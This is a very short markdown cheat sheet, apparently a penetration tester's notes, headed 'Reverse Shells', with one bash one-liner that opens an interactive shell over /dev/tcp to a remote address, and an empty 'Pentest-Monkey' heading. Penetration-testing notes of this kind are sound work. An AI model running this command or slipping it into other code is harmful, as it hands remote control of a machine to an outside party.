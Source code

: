 # Notes Cheat sheet

## Reverse Shells


*Bash*
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### Pentest-Monkey
